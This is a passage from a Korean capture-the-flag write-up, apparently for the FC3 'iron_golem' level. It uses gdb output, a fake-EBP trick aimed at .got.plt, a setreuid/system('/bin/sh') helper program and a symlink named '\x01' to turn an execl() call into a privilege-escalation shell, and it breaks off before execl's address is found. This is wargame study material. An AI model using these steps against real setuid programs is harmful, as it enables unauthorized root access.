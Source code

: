 got영역의 주소를 보면 0x08049618임을 확인 할 수 있다.



```assembly
(gdb) x/8wx 0x8049618
0x8049618 <_GLOBAL_OFFSET_TABLE_>:	0x0804954c	0x007194f8	0x0070e9e0	0x00730d50
```

해당 주소를 보면 0x0804954c를 가리키고 있다.

```assembly
(gdb) x/x 0x0804954c
0x804954c <_DYNAMIC>:	0x00000001
```

주소를 따라가보면 1이라는 값을 가지고 있다.



.got.plt 를 따라가보면 거의 대부분 1이라는 값을 가리키고 있기 때문에 이를 많이 사용한다.

여기서 중요한점은 FakeEBP를 사용하는 이유는 execl()함수의 인자값으로 참조 시키기 위함이라고 설명하였다.

그리고 대부분 함수에서 인자들은 EBP를 기준으로 EBP+8, EBP+12 이렇게 들어간다고 설명하였다.

따라서 우리도 이거에 맞춰서 .got.plt주소의 -8한 값을 넘겨주어야 EBP가 우리가 원하는 값으로 셋팅이 된다.

<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/1.iron_golem/image-20180807135423025.png" width="500px">

위와 같이 메모리상태가 되게 되면 execl("\x01") 함수가 실행되는 형태가 된다.



여기까지 execl함수를 이용하여 실행하는 것까지 되었지만, "\x01"이 실행되기 때문에 우리가 원하는 것이 실행되지 않는다.

이때 심볼릭 링크를 사용하여 뭔하는 프로그램이 실행되도록 하면 된다.

```c
[gate@Fedora_1stFloor ~]$ cat ex.c
#include<stdio.h>

int main(){
	setreuid(geteuid(), geteuid());
	system("/bin/sh");
	return 0;
}
```

위 처럼 권한상승하는 ex라는 프로그램을 만들어 준다. 그리고 ex프로그램을 "\x01"라는 이름으로 심볼릭링크 걸어주면, execl("\x01")이 실행되면 ex프로그램이 실행되어 권한 상승이 일어나고 쉘이 실행되게 된다.



```sh
[gate@Fedora_1stFloor ~]$ ln -s ./ex `python -c 'print "\x01"'`
[gate@Fedora_1stFloor ~]$ ls -l
total 80
lrwxrwxrwx  1 gate       gate          4 Aug  1 12:46 ? -> ./ex
```



이제 execl()의 주소를 알아보자.
